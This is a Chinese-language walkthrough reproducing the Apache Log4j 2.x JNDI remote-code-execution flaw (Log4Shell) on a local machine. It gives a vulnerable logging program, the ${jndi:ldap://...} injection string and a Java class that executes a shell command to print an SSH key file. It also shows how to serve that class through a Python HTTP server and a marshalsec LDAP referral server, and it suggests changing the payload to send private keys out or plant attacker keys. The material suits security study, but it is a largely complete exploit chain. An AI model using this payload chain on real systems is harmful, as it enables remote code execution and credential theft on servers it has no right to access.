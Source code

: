 Log4jRCE 漏洞复现
==================
影响版本：Apache Log4j 2.x <= 2.14.1
------------------
IntelliJ中新建一个工程，src文件夹下创建log4j2.xml文件，作为log4j的配置文件，控制输出的格式。注意log4j的1版本可以使用.properties后缀的文件进行配置，2版本只支持xml和json。

log4j2.xml内容：
```Java
<?xml version="1.0" encoding="UTF-8"?>
<Configuration>
    <Appenders>
        <Console name="CONSOLE" target="SYSTEM_OUT">
            <PatternLayout pattern="%d %-5p [%t] (%F:%L) - %m%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="CONSOLE"/>
        </Root>
    </Loggers>
</Configuration>
```

然后在src文件夹下创建Log4jHack.java源文件，内容如下：
```Java
public class Log4jHack
{
    private static final Logger logger = LogManager.getLogger(Log4jHack.class);
    public static void main( String[] args )
    {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://127.0.0.1:1389/Log4jRCE}");
    }
}
```

这个文件模拟的就是使用Log4j2框架的网站服务器程序。很多网站使用Java作为后端开发语言，网页中又具有提交表单的输入框，出于调试需要很可能会将输入框的内容通过logger进行输出。我们省略网页的逻辑，将输入框中的注入攻击语句直接作为参数传递给logger.error函数。

然后选择一个其他的目录（与Log4jHack.java不同目录），创建Log4jRCE.java文件。这个文件就是我们想要服务器执行的代码，我们可以在这个文件中尝试调用系统命令，这里以输出电脑的SSH公钥为例（注意：Log4j.java不要带package 包名）:

```Java
import java.io.BufferedReader;    
import java.io.IOException;    
import java.io.InputStream;    
import java.io.InputStreamReader;    
   
public class Log4jRCE {
    static {
        System.out.println("I am Log4jRCE from remote!!");
        Process p;
        String[] cmd = {"cat","/Users/Mac/.ssh/id_rsa.pub"};
        try{
            p = java.lang.Runtime.getRuntime().exec(cmd);
            InputStream fis = p.getInputStream();
            InputStreamReader isr = new InputStreamReader(fis);
            BufferedReader br = new BufferedReader(isr);
            String line = null;
            while((line = br.readLine()) != null){
                System.out.println(line);
            }
        }catch (IOException e){
            e.printStackTrace();
        }
    }
}
```

然后编译一下这个程序得到字节码文件Log4jRCE.class，命令如下：
```Java
javac Log4jRCE.java
```

然后我们在这个文件夹下打开控制台（保证服务器根目录下有Log4jRCE.class文件），启动Python自带的HTTP服务器：
```python
python3 -m http.server 127.0.0.1:8888
```

接着我们还需要在本地启动一个LDAP服务器（这两个服务器都是在攻击者电脑上的）：
```Java
git clone git@github.com:bkfish/Apache-Log4j-Learning.git
cd Apache-Log4j-Learning/tools
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```
然后我们运行IntelliJ里的Log4jHack.java模拟注入攻击提交表单的那一刻，服务器端使用log4j2输出日志，结果为/Users/Mac/.ssh/id_rsa.pub文件内容

可以看到，机器的公钥已经在服务器上被输出了。当然这并没有什么意义，但如果我们的Log4jRCE的逻辑是通过网络通信将私钥发送给指定服务器（攻击者的电脑），或者是将攻击者的SSH公钥写入Authorized_keys文件中，那么就会出现极其严重的安全问题。

总结一下攻击过程，攻击者在网页表单的输入框里输入注入攻击语句，在提交表单时，被服务器端的Log4j框架作为日志输出，但由于该库的某些解析构造漏洞，会把${}括号中的语句作为命令执行。攻击者的注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名为Log4jRCE，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。
